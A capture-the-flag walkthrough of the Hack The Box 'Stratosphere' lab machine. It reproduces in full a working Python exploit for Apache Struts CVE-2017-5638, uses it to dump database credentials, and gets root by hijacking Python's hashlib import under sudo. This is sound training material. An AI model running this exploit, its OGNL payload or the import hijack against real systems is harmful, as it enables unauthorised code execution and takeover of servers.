




<br />


<br />

# Introduction:

<br />

Hello hackers! Today we’ll tackle the Stratosphere Machine, a medium-difficulty challenge. We’ll start by exploiting a vulnerable version of Apache Struts to gain system access. Once inside, we’ll perform a Python Library Hijacking to escalate privileges and take control of the system as root.
 
<br />

# Enumeration:

<br />

As always we are going to start with a nmap scan:

<br />

```bash
❯ nmap -p- 10.10.10.64 --open --min-rate 5000 -sS -T5 -Pn -n -sCV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-08 22:17 CET
Nmap scan report for 10.10.10.64
Host is up (0.057s latency).
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u3 (protocol 2.0)
| ssh-hostkey: 
|   2048 5b:16:37:d4:3c:18:04:15:c4:02:01:0d:db:07:ac:2d (RSA)
|   256 e3:77:7b:2c:23:b0:8d:df:38:35:6c:40:ab:f6:81:50 (ECDSA)
|_  256 d7:6b:66:9c:19:fc:aa:66:6c:18:7a:cc:b5:87:0e:40 (ED25519)
8080/tcp open  http-proxy
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Stratosphere
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 
|     Accept-Ranges: bytes
|     ETag: W/"1708-1519762495651"
|     Last-Modified: Tue, 27 Feb 2018 20:14:55 GMT
|     Content-Type: text/html
|     Content-Length: 1708
|     Date: Wed, 08 Jan 2025 19:18:36 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html>
|     <head>
|     <meta charset="utf-8"/>
|     <title>Stratosphere</title>
|     <link rel="stylesheet" type="text/css" href="main.css">
|     </head>
|     <body>
|     <div id="background"></div>
|     <header id="main-header" class="hidden">
|     <div class="container">
|     <div class="content-wrap">
|     <p><i class="fa fa-diamond"></i></p>
|     <nav>
|     class="btn" href="GettingStarted.html">Get started</a>
|     </nav>
|     </div>
|     </div>
|     </header>
|     <section id="greeting">
|     <div class="container">
|     <div class="content-wrap">
|     <h1>Stratosphere<br>We protect your credit.</h1>
|     class="btn" href="GettingStarted.html">Get started now</a>
|     <p><i class="ar
|   HTTPOptions: 
|     HTTP/1.1 200 
|     Allow: OPTIONS, GET, HEAD, POST
|     Content-Length: 0
|     Date: Wed, 08 Jan 2025 19:18:36 GMT
|     Connection: close
|   RTSPRequest: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 1874
|     Date: Wed, 08 Jan 2025 19:18:36 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|_    Request</h1><hr class="line" /><p><b>Type</b> Exception Report</p><p><b>Message</b> Invalid character found in the HTTP protocol</p><p><b>Description</b> The server cannot or will not process the request due to something that is perceived to be a client error (e.g., malformed request syntax, invalid request message framing, or decept
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.94SVN%I=7%D=1/8%Time=677EEB97%P=x86_64-pc-linux-gnu%r(
SF:GetRequest,786,"HTTP/1\.1\x20200\x20\r\nAccept-Ranges:\x20bytes\r\nETag
SF::\x20W/\"1708-1519762495651\"\r\nLast-Modified:\x20Tue,\x2027\x20Feb\x2
SF:02018\x2020:14:55\x20GMT\r\nContent-Type:\x20text/html\r\nContent-Lengt
SF:h:\x201708\r\nDate:\x20Wed,\x2008\x20Jan\x202025\x2019:18:36\x20GMT\r\n
SF:Connection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html>\n<head>\n\x20\x2
SF:0\x20\x20<meta\x20charset=\"utf-8\"/>\n\x20\x20\x20\x20<title>Stratosph
SF:ere</title>\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20type=\"text
SF:/css\"\x20href=\"main\.css\">\n</head>\n\n<body>\n<div\x20id=\"backgrou
SF:nd\"></div>\n<header\x20id=\"main-header\"\x20class=\"hidden\">\n\x20\x
SF:20<div\x20class=\"container\">\n\x20\x20\x20\x20<div\x20class=\"content
SF:-wrap\">\n\x20\x20\x20\x20\x20\x20<p><i\x20class=\"fa\x20fa-diamond\"><
SF:/i></p>\n\x20\x20\x20\x20\x20\x20<nav>\n\x20\x20\x20\x20\x20\x20\x20\x2
SF:0<a\x20class=\"btn\"\x20href=\"GettingStarted\.html\">Get\x20started</a
SF:>\n\x20\x20\x20\x20\x20\x20</nav>\n\x20\x20\x20\x20</div>\n\x20\x20</di
SF:v>\n</header>\n\n<section\x20id=\"greeting\">\n\x20\x20<div\x20class=\"
SF:container\">\n\x20\x20\x20\x20<div\x20class=\"content-wrap\">\n\x20\x20
SF:\x20\x20\x20\x20<h1>Stratosphere<br>We\x20protect\x20your\x20credit\.</
SF:h1>\n\x20\x20\x20\x20\x20\x20<a\x20class=\"btn\"\x20href=\"GettingStart
SF:ed\.html\">Get\x20started\x20now</a>\n\x20\x20\x20\x20\x20\x20<p><i\x20
SF:class=\"ar")%r(HTTPOptions,7D,"HTTP/1\.1\x20200\x20\r\nAllow:\x20OPTION
SF:S,\x20GET,\x20HEAD,\x20POST\r\nContent-Length:\x200\r\nDate:\x20Wed,\x2
SF:008\x20Jan\x202025\x2019:18:36\x20GMT\r\nConnection:\x20close\r\n\r\n")
SF:%r(RTSPRequest,7EE,"HTTP/1\.1\x20400\x20\r\nContent-Type:\x20text/html;
SF:charset=utf-8\r\nContent-Language:\x20en\r\nContent-Length:\x201874\r\n
SF:Date:\x20Wed,\x2008\x20Jan\x202025\x2019:18:36\x20GMT\r\nConnection:\x2
SF:0close\r\n\r\n<!doctype\x20html><html\x20lang=\"en\"><head><title>HTTP\
SF:x20Status\x20400\x20\xe2\x80\x93\x20Bad\x20Request</title><style\x20typ
SF:e=\"text/css\">body\x20{font-family:Tahoma,Arial,sans-serif;}\x20h1,\x2
SF:0h2,\x20h3,\x20b\x20{color:white;background-color:#525D76;}\x20h1\x20{f
SF:ont-size:22px;}\x20h2\x20{font-size:16px;}\x20h3\x20{font-size:14px;}\x
SF:20p\x20{font-size:12px;}\x20a\x20{color:black;}\x20\.line\x20{height:1p
SF:x;background-color:#525D76;border:none;}</style></head><body><h1>HTTP\x
SF:20Status\x20400\x20\xe2\x80\x93\x20Bad\x20Request</h1><hr\x20class=\"li
SF:ne\"\x20/><p><b>Type</b>\x20Exception\x20Report</p><p><b>Message</b>\x2
SF:0Invalid\x20character\x20found\x20in\x20the\x20HTTP\x20protocol</p><p><
SF:b>Description</b>\x20The\x20server\x20cannot\x20or\x20will\x20not\x20pr
SF:ocess\x20the\x20request\x20due\x20to\x20something\x20that\x20is\x20perc
SF:eived\x20to\x20be\x20a\x20client\x20error\x20\(e\.g\.,\x20malformed\x20
SF:request\x20syntax,\x20invalid\x20request\x20message\x20framing,\x20or\x
SF:20decept");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.13 seconds
```

<br />

We have two open ports:

<br />

- `Port 22` -> ssh 
- `Port 8080` -> http 

<br />

# Web Enumeration: -> Port 8080

<br />

We proceed to list the `website` and it seems that it is still `being developed` since there are not many things:

<br />



<br />

Continue exploring the `website` and we see a `path` that confirms our theory:

<br />



<br />

We started to further list the website using `wfuzz` to discover `interesting paths` and listed the following:

<br />

```bash
❯ wfuzz -c -t 50 --hc=404 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.64/FUZZ
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.64/FUZZ
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                
=====================================================================

000000001:   200        63 L     153 W      1708 Ch     "# directory-list-2.3-medium.txt"                                                                                      
000000003:   200        63 L     153 W      1708 Ch     "# Copyright 2007 James Fisher"                                                                                        
000000007:   200        63 L     153 W      1708 Ch     "# license, visit http://creativecommons.org/licenses/by-sa/3.0/"                                                      
000000014:   200        63 L     153 W      1708 Ch     "http://10.10.10.64/"                                                                                                  
000000012:   200        63 L     153 W      1708 Ch     "# on at least 2 different hosts"                                                                                      
000000013:   200        63 L     153 W      1708 Ch     "#"                                                                                                                    
000000011:   200        63 L     153 W      1708 Ch     "# Priority ordered case-sensitive list, where entries were found"                                                     
000000004:   200        63 L     153 W      1708 Ch     "#"                                                                                                                    
000000002:   200        63 L     153 W      1708 Ch     "#"                                                                                                                    
000000006:   200        63 L     153 W      1708 Ch     "# Attribution-Share Alike 3.0 License. To view a copy of this"                                                        
000000005:   200        63 L     153 W      1708 Ch     "# This work is licensed under the Creative Commons"                                                                   
000000010:   200        63 L     153 W      1708 Ch     "#"                                                                                                                    
000000009:   200        63 L     153 W      1708 Ch     "# Suite 300, San Francisco, California, 94105, USA."                                                                  
000000008:   200        63 L     153 W      1708 Ch     "# or send a letter to Creative Commons, 171 Second Street,"                                                           
000004889:   302        0 L      0 W        0 Ch        "manager"                                                                                                              
000013290:   302        0 L      0 W        0 Ch        "Monitoring"
```

<br />

-> `/manager` -> It is the default Apache Tomcat path with the login panel, but we dont have credentials, so we continue enumerating.

-> `/Monitoring` -> It looks very interesting so proceed to list it redirect us to the next path -> `/Monitoring/example/Welcome.action`:

<br />



<br />

Try to `log` into the web or `create an account` but its not posible because the website seems to be `under construction`:

<br />



<br />

# Apache Struts RCE (CVE-2017-5638):

<br />

After that, we make a search about the path `(welcome.action)` to know what technology is behind the website and we discover that it is `Apache Struts`:

<br />


<br />

This web server suffered from a rather `critical vulnerability` back in the day `(CVE-2017-5638)`, so we proceeded to search and found a [repository](https://github.com/mazen160/struts-pwn) with the following script in `Python` to exploit it:

<br />

```python
#!/usr/bin/env python3
# coding=utf-8
# *****************************************************
# struts-pwn: Apache Struts CVE-2017-5638 Exploit
# Author:
# Mazin Ahmed <Mazin AT MazinAhmed DOT net>
# This code is based on:
# https://www.exploit-db.com/exploits/41570/
# https://www.seebug.org/vuldb/ssvid-92746
# *****************************************************
import sys
import random
import requests
import argparse

# Disable SSL warnings
try:
    import requests.packages.urllib3
    requests.packages.urllib3.disable_warnings()
except:
    pass

if len(sys.argv) <= 1:
    print('[*] CVE: 2017-5638 - Apache Struts2 S2-045')
    print('[*] Struts-PWN - @mazen160')
    print('\n%s -h for help.' % (sys.argv[0]))
    exit(0)

parser = argparse.ArgumentParser()
parser.add_argument("-u", "--url",
                    dest="url",
                    help="Check a single URL.",
                    action='store')
parser.add_argument("-l", "--list",
                    dest="usedlist",
                    help="Check a list of URLs.",
                    action='store')
parser.add_argument("-c", "--cmd",
                    dest="cmd",
                    help="Command to execute. (Default: id)",
                    action='store',
                    default='id')
parser.add_argument("--check",
                    dest="do_check",
                    help="Check if a target is vulnerable.",
                    action='store_true')
args = parser.parse_args()
url = args.url if args.url else None
usedlist = args.usedlist if args.usedlist else None
url = args.url if args.url else None
cmd = args.cmd if args.cmd else None
do_check = args.do_check if args.do_check else None


def url_prepare(url):
    url = url.replace('#', '%23')
    url = url.replace(' ', '%20')
    if ('://' not in url):
        url = str('http') + str('://') + str(url)
    return(url)


def exploit(url, cmd):
    url = url_prepare(url)
    print('\n[*] URL: %s' % (url))
    print('[*] CMD: %s' % (cmd))

    payload = "%{(#_='multipart/form-data')."
    payload += "(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)."
    payload += "(#_memberAccess?"
    payload += "(#_memberAccess=#dm):"
    payload += "((#container=#context['com.opensymphony.xwork2.ActionContext.container'])."
    payload += "(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))."
    payload += "(#ognlUtil.getExcludedPackageNames().clear())."
    payload += "(#ognlUtil.getExcludedClasses().clear())."
    payload += "(#context.setMemberAccess(#dm))))."
    payload += "(#cmd='%s')." % cmd
    payload += "(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win')))."
    payload += "(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd}))."
    payload += "(#p=new java.lang.ProcessBuilder(#cmds))."
    payload += "(#p.redirectErrorStream(true)).(#process=#p.start())."
    payload += "(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))."
    payload += "(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros))."
    payload += "(#ros.flush())}"

    headers = {
        'User-Agent': 'struts-pwn (https://github.com/mazen160/struts-pwn)',
        # 'User-Agent': 'Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.36',
        'Content-Type': str(payload),
        'Accept': '*/*'
    }

    timeout = 3
    try:
        output = requests.get(url, headers=headers, verify=False, timeout=timeout, allow_redirects=False).text
    
    except requests.exceptions.ChunkedEncodingError:
        print("[!] ChunkedEncodingError Error: Making another request to the url.")
        print("Refer to: https://github.com/mazen160/struts-pwn/issues/8 for help.")
        try:
            output = b""
            with requests.get(url, headers=headers, verify=False, timeout=timeout, allow_redirects=False, stream=True) as resp:
                for i in resp.iter_content():
                    output += i
        except requests.exceptions.ChunkedEncodingError as e:
            print("EXCEPTION::::--> " + str(e))
            print("Note: Server Connection Closed Prematurely\n")
        except Exception as e:
            print("EXCEPTION::::--> " + str(e))
            output = 'ERROR'
        if type(output) != str:
            output = output.decode('utf-8')
        return(output)
    except Exception as e:
        print("EXCEPTION::::--> " + str(e))
        output = 'ERROR'
    
    return(output)


def check(url):
    url = url_prepare(url)
    print('\n[*] URL: %s' % (url))

    random_string = ''.join(random.choice('abcdefghijklmnopqrstuvwxyz') for i in range(7))

    payload = "%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse']."
    payload += "addHeader('%s','%s')}.multipart/form-data" % (random_string, random_string)
    headers = {
        'User-Agent': 'struts-pwn (https://github.com/mazen160/struts-pwn)',
        # 'User-Agent': 'Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.36',
        'Content-Type': str(payload),
        'Accept': '*/*'
    }

    timeout = 3
    try:
        resp = requests.get(url, headers=headers, verify=False, timeout=timeout, allow_redirects=False)
        if ((random_string in resp.headers.keys()) and (resp.headers[random_string] == random_string)):
            result = True
        else:
            result = False
    except Exception as e:
        print("EXCEPTION::::--> " + str(e))
        result = False
    return(result)


def main(url=url, usedlist=usedlist, cmd=cmd, do_check=do_check):
    if url:
        if do_check:
            result = check(url)  # Only check for existence of Vulnerablity
            output = '[*] Status: '
            if result is True:
                output += 'Vulnerable!'
            else:
                output += 'Not Affected.'
        else:
            output = exploit(url, cmd)  # Exploit
        print(output)

    if usedlist:
        URLs_List = []
        try:
            f_file = open(str(usedlist), 'r')
            URLs_List = f_file.read().replace('\r', '').split('\n')
            try:
                URLs_List.remove('')
            except ValueError:
                pass
                f_file.close()
        except:
            print('Error: There was an error in reading list file.')
            exit(1)
        for url in URLs_List:
            if do_check:
                result = check(url)  # Only check for existence of Vulnerablity
                output = '[*] Status: '
                if result is True:
                    output += 'Vulnerable!'
                else:
                    output += 'Not Affected.'
            else:
                output = exploit(url, cmd)  # Exploit
            print(output)

    print('[%] Done.')

if __name__ == '__main__':
    try:
        main(url=url, usedlist=usedlist, cmd=cmd, do_check=do_check)
    except KeyboardInterrupt:
        print('\nKeyboardInterrupt Detected.')
        print('Exiting...')
        exit(0)
```

<br />

The first thing is to `verify` that the `script` applies to our case, so we execute an `id`:

<br />

```bash
❯ python3 struts-pwn.py -u http://10.10.10.64/Monitoring/example/Welcome.action -c 'id'

[*] URL: http://10.10.10.64/Monitoring/example/Welcome.action
[*] CMD: id
[!] ChunkedEncodingError Error: Making another request to the url.
Refer to: https://github.com/mazen160/struts-pwn/issues/8 for help.
EXCEPTION::::--> ("Connection broken: InvalidChunkLength(got length b'', 0 bytes read)", InvalidChunkLength(got length b'', 0 bytes read))
Note: Server Connection Closed Prematurely

uid=115(tomcat8) gid=119(tomcat8) groups=119(tomcat8)

[%] Done.
```

<br />

Perfect!! We are `executing commands` as the user `tomcat8`.

<br />

After verify that we are able to execute commands, try to gain access to the system with a `reverse shell` but in this case it was `unsuccessful`, so we start enumerating the system with a `ls -l` of the actual directory:

<br />

```bash
❯ python3 struts-pwn.py -u http://10.10.10.64/Monitoring/example/Welcome.action -c 'ls -l'

[*] URL: http://10.10.10.64/Monitoring/example/Welcome.action
[*] CMD: ls -l
[!] ChunkedEncodingError Error: Making another request to the url.
Refer to: https://github.com/mazen160/struts-pwn/issues/8 for help.
EXCEPTION::::--> ("Connection broken: InvalidChunkLength(got length b'', 0 bytes read)", InvalidChunkLength(got length b'', 0 bytes read))
Note: Server Connection Closed Prematurely

total 16
lrwxrwxrwx 1 root    root      12 Sep  3  2017 conf -> /etc/tomcat8
-rw-r--r-- 1 root    root      68 Oct  2  2017 db_connect
drwxr-xr-x 2 tomcat8 tomcat8 4096 Sep  3  2017 lib
lrwxrwxrwx 1 root    root      17 Sep  3  2017 logs -> ../../log/tomcat8
drwxr-xr-x 2 root    root    4096 Jan  8 14:17 policy
drwxrwxr-x 4 tomcat8 tomcat8 4096 Feb 10  2018 webapps
lrwxrwxrwx 1 root    root      19 Sep  3  2017 work -> ../../cache/tomcat8

[%] Done.
```

<br />

Look at that! There is a file named `db_connect`, it seems interesting, let's take a look:

<br />

```bash
❯ python3 struts-pwn.py -u http://10.10.10.64/Monitoring/example/Welcome.action -c 'cat db_connect'

[*] URL: http://10.10.10.64/Monitoring/example/Welcome.action
[*] CMD: cat db_connect
[!] ChunkedEncodingError Error: Making another request to the url.
Refer to: https://github.com/mazen160/struts-pwn/issues/8 for help.
EXCEPTION::::--> ("Connection broken: InvalidChunkLength(got length b'', 0 bytes read)", InvalidChunkLength(got length b'', 0 bytes read))
Note: Server Connection Closed Prematurely

[ssn]
user=ssn_admin
pass=AWs64@on*&

[users]
user=admin
pass=admin

[%] Done.
```

<br />

Perfect! We have `database credentials`, so we can try to enumerate the `MySql` database.

As we can see, there are two databases:

<br />

```bash
❯ python3 struts-pwn.py -u http://10.10.10.64/Monitoring/example/Welcome.action -c 'mysqlshow -u admin -padmin'

[*] URL: http://10.10.10.64/Monitoring/example/Welcome.action
[*] CMD: mysqlshow -u admin -padmin
[!] ChunkedEncodingError Error: Making another request to the url.
Refer to: https://github.com/mazen160/struts-pwn/issues/8 for help.
EXCEPTION::::--> ("Connection broken: InvalidChunkLength(got length b'', 0 bytes read)", InvalidChunkLength(got length b'', 0 bytes read))
Note: Server Connection Closed Prematurely

+--------------------+
|     Databases      |
+--------------------+
| information_schema |
| users              |
+--------------------+

[%] Done.
```

<br />

We are going to list first the `users database`. It have only one table, `accounts`:

<br />

```bash
❯ python3 struts-pwn.py -u http://10.10.10.64/Monitoring/example/Welcome.action -c 'mysqlshow -u admin -padmin users'

[*] URL: http://10.10.10.64/Monitoring/example/Welcome.action
[*] CMD: mysqlshow -u admin -padmin users
[!] ChunkedEncodingError Error: Making another request to the url.
Refer to: https://github.com/mazen160/struts-pwn/issues/8 for help.
EXCEPTION::::--> ("Connection broken: InvalidChunkLength(got length b'', 0 bytes read)", InvalidChunkLength(got length b'', 0 bytes read))
Note: Server Connection Closed Prematurely

Database: users
+----------+
|  Tables  |
+----------+
| accounts |
+----------+

[%] Done.
```

<br />

We list its `structure` and it looks good:

<br />

```bash
❯ python3 struts-pwn.py -u http://10.10.10.64/Monitoring/example/Welcome.action -c 'mysqlshow -u admin -padmin users accounts'

[*] URL: http://10.10.10.64/Monitoring/example/Welcome.action
[*] CMD: mysqlshow -u admin -padmin users accounts
[!] ChunkedEncodingError Error: Making another request to the url.
Refer to: https://github.com/mazen160/struts-pwn/issues/8 for help.
EXCEPTION::::--> ("Connection broken: InvalidChunkLength(got length b'', 0 bytes read)", InvalidChunkLength(got length b'', 0 bytes read))
Note: Server Connection Closed Prematurely

Database: users  Table: accounts
+----------+-------------+--------------------+------+-----+---------+-------+---------------------------------+---------+
| Field    | Type        | Collation          | Null | Key | Default | Extra | Privileges                      | Comment |
+----------+-------------+--------------------+------+-----+---------+-------+---------------------------------+---------+
| fullName | varchar(45) | utf8mb4_general_ci | YES  |     |         |       | select,insert,update,references |         |
| password | varchar(30) | utf8mb4_general_ci | YES  |     |         |       | select,insert,update,references |         |
| username | varchar(20) | utf8mb4_general_ci | YES  |     |         |       | select,insert,update,references |         |
+----------+-------------+--------------------+------+-----+---------+-------+---------------------------------+---------+

[%] Done.
```

<br />

Okey!!! We have new `user` and `password`:

<br />

```bash
❯ python3 struts-pwn.py -u http://10.10.10.64/Monitoring/example/Welcome.action -c 'mysql -u admin -padmin -D users -e "select username, password from accounts"'

[*] URL: http://10.10.10.64/Monitoring/example/Welcome.action
[*] CMD: mysql -u admin -padmin -D users -e "select username, password from accounts"
[!] ChunkedEncodingError Error: Making another request to the url.
Refer to: https://github.com/mazen160/struts-pwn/issues/8 for help.
EXCEPTION::::--> ("Connection broken: InvalidChunkLength(got length b'', 0 bytes read)", InvalidChunkLength(got length b'', 0 bytes read))
Note: Server Connection Closed Prematurely

username	password
richard	9tc*rhKuG5TyXvUJOrE^5CK7k

[%] Done.
```

<br />

Let's try to connect with ssh as `richard`:

<br />

```bash
❯ ssh richard@10.10.10.64
richard@10.10.10.64's password: 
Linux stratosphere 4.19.0-25-amd64 #1 SMP Debian 4.19.289-2 (2023-08-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Dec  3 12:20:42 2023 from 10.10.10.2
richard@stratosphere:~$ export TERM=xterm
richard@stratosphere:~$ stty rows 45 columns 184
richard@stratosphere:~$ cd
richard@stratosphere:~$ cat user.txt
104d5fae9a4f20d62bc6a7b771xxxxxx
```

<br />

Intrusion and user.txt ready!! Come on with the Privilege Escalation!!

<br />

# Privilege Escalation: richard -> root

<br />

Once inside the system, we begin by listing as always the SUDOERS privileges for our user richard:

<br />

```bash
richard@stratosphere:~$ sudo -l
Matching Defaults entries for richard on stratosphere:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User richard may run the following commands on stratosphere:
    (ALL) NOPASSWD: /usr/bin/python* /home/richard/test.py
```

<br />

## Python Library Hijacking:

<br />

We can run a Python Script as root without introduce a password, let's take a look at what it does:

<br />

```python
#!/usr/bin/python3
import hashlib


def question():
    q1 = input("Solve: 5af003e100c80923ec04d65933d382cb\n")
    md5 = hashlib.md5()
    md5.update(q1.encode())
    if not md5.hexdigest() == "5af003e100c80923ec04d65933d382cb":
        print("Sorry, that's not right")
        return
    print("You got it!")
    q2 = input("Now what's this one? d24f6fb449855ff42344feff18ee2819033529ff\n")
    sha1 = hashlib.sha1()
    sha1.update(q2.encode())
    if not sha1.hexdigest() == 'd24f6fb449855ff42344feff18ee2819033529ff':
        print("Nope, that one didn't work...")
        return
    print("WOW, you're really good at this!")
    q3 = input("How about this? 91ae5fc9ecbca9d346225063f23d2bd9\n")
    md4 = hashlib.new('md4')
    md4.update(q3.encode())
    if not md4.hexdigest() == '91ae5fc9ecbca9d346225063f23d2bd9':
        print("Yeah, I don't think that's right.")
        return
    print("OK, OK! I get it. You know how to crack hashes...")
    q4 = input("Last one, I promise: 9efebee84ba0c5e030147cfd1660f5f2850883615d444ceecf50896aae083ead798d13584f52df0179df0200a3e1a122aa738beff263b49d2443738eba41c943\n")
    blake = hashlib.new('BLAKE2b512')
    blake.update(q4.encode())
    if not blake.hexdigest() == '9efebee84ba0c5e030147cfd1660f5f2850883615d444ceecf50896aae083ead798d13584f52df0179df0200a3e1a122aa738beff263b49d2443738eba41c943':
        print("You were so close! urg... sorry rules are rules.")
        return

    import os
    os.system('/root/success.py')
    return

question()
```

<br />

The script that we can execute imports a `Python Module`, this is quite critical since as we know, the `Python Path` begins to `search` the `library` by the `current route` ('',).

<br />

```bash
richard@stratosphere:~$ python3 -c 'import sys; print(sys.path)'
['', '/usr/lib/python37.zip', '/usr/lib/python3.7', '/usr/lib/python3.7/lib-dynload', '/usr/local/lib/python3.7/dist-packages', '/usr/lib/python3/dist-packages']
```

<br />

So if we `create` a the `hashlib.py` module in the `current route` with malicious code, `root` is going to `execute it` when we run the `test.py`. Let's do it!!

<br />

`Malicious hashlib.py:`

<br />

```python
#!/usr/bin/env python3

import os

os.system('/bin/bash')
```

<br />

Once created we apply execute permissions and run the test.py script to get root:

<br />

```bash
richard@stratosphere:~$ sudo /usr/bin/python3 /home/richard/test.py
root@stratosphere:/home/richard# whoami
root
root@stratosphere:/home/richard# cd /root
root@stratosphere:~# cat root.txt
46ced40dd35493ea8eca404547xxxxxx
```

<br />

Machine rooted!!!

I learn a lot with this machine, hope that you to :D.

Keep hacking!!❤️❤️
